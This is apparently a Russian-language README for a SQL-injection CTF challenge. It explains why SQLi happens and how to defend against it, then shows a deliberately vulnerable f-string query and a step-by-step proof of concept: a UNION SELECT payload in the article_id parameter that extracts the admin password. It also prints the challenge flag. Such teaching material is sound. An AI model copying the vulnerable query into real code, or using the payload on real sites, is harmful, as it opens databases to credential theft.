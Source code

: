 # SQL Injection CTF Challenge

Этот репозиторий содержит CTF-задачу, демонстрирующую уязвимость SQL Injection (SQLi) в веб-приложении. Задача позволяет изучить, как возникает уязвимость, как её эксплуатировать и как защититься от неё.

## Описание уязвимости

### Что такое SQL Injection?
SQL Injection — это уязвимость, которая возникает, когда злоумышленник может внедрить произвольный SQL-код в запросы к базе данных. Это происходит из-за недостаточной проверки или санитизации пользовательского ввода.

### Почему возникает уязвимость?
Уязвимость возникает, когда:
1. Приложение напрямую использует пользовательский ввод в SQL-запросах.
2. Входные данные не проверяются и не экранируются.
3. Приложение не использует подготовленные выражения (prepared statements) или параметризованные запросы.

## Способы защиты от уязвимости

1. Использование подготовленных выражений (prepared statements):
Всегда используйте параметризованные запросы или подготовленные выражения. Пример для Python (с использованием `PyMySQL`):
   ```python
   cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
2. Валидация и санитизация входных данных: Проверяйте и очищайте все пользовательские данные перед использованием в SQL-запросах. Используйте регулярные выражения для удаления нежелательных символов.

3. Ограничение прав доступа к базе данных: Используйте учётные записи с минимальными необходимыми привилегиями.

4. Использование ORM: Используйте ORM (Object-Relational Mapping) для автоматической защиты от SQLi.

Запуск приложения
Требования
Установленный Docker и Docker Compose.

Команды для запуска
Клонируйте репозиторий:

    git clone https://github.com/nnikk777/ctf-2
    cd sqli-ctf
Запустите докер: 

    docker-compose up --build
Откройте веб-браузер и перейдите по адресу:

    http://localhost:5000

В данном приложении уязвимость SQL Injection присутствует на странице отображения статей. Параметр article_id передаётся напрямую в SQL-запрос без какой-либо проверки или санитизации. Это позволяет злоумышленнику внедрить произвольный SQL-код.

Пример уязвимого кода:

python

    sql = f"SELECT text FROM articles WHERE id = {article_id}"
    cursor.execute(sql)
POC-эксплоит для получения флага
Шаг 1: Найдите уязвимость
Перейдите на главную страницу приложения:

    http://localhost:5000
Шаг 2: Используйте SQL Injection
Введите следующий URL для получения пароля администратора:


    http://localhost:5000/?article_id=-1 UNION SELECT 1,password,3 FROM users WHERE username='admin'-- 
Шаг 3: Получите флаг
На странице отобразится пароль администратора (флаг) в виде:


    CTF{Uni0n_S3l3ct_1s_P0wer}
Шаг 4: Используйте флаг для входа
Перейдите на страницу входа:


    http://localhost:5000/login
Введите логин admin и полученный пароль для получения флага.
